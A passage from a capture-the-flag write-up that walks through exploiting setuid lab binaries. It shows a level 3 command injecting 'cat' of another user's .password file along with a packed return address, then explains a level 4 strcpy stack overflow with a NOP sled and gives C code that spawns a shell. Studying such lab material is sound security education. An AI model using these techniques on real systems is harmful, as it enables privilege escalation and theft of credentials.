 ```
$ /levels/level03 -21 "cat /home/level03/.password $(printf '\xac\x84\x04\x08')
```




---
## Level 4: Classic Stack Overflow

Level 4 is about a classical  Stack Overflow problem. Once again we get a **setuid** binary, together with the following code:

```
void fun(char *str)
{
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv)
{
  if (argc != 2) {
    printf("Usage: ./level04 STRING");
    exit(-1);
  }
  fun(argv[1]);
  printf("Oh no! That didn't work!\n");
  return 0;
}
```

In this challenge, the input string is received by the function **fun**, and then it is  copied to the buffer. Since ```strcp``` does not perform bound checking, if our string is larger than 1024 characters, it  will keep copying until it reaches a NULL byte (0x00).  This  [overflows the stack](http://phrack.org/issues/49/14.html#article) and  makes it possible to rewrite the **function return address**.

The input for the **fun** function is going to be  1024 bytes (which starts at **&buf**) with several [NOPs](http://en.wikipedia.org/wiki/NOP) plus the shellcode. The overflowed bytes have pointers to the address of **buf** (**&buf**). We use NOPs because the system uses stack randomization. If **&buf** points to any of the NOPs, the shellcode will be executed.


### Yet Another Shellcode Introduction

Shellcode can either be crafted directly in Assembly, or reproduced in C and then disassembled in **gdb** and **objdump**. The second approach is more prone to errors.

Let's write the simplest shellcode we can think of, which simply spawns a shell:

```
#include <stdlib.h>
int main()
{
  char *array[2];
  array[0] = "/bin/sh";
  array[1] = NULL;
  execve(array[0], array, NULL);
  exit(0);
}
```
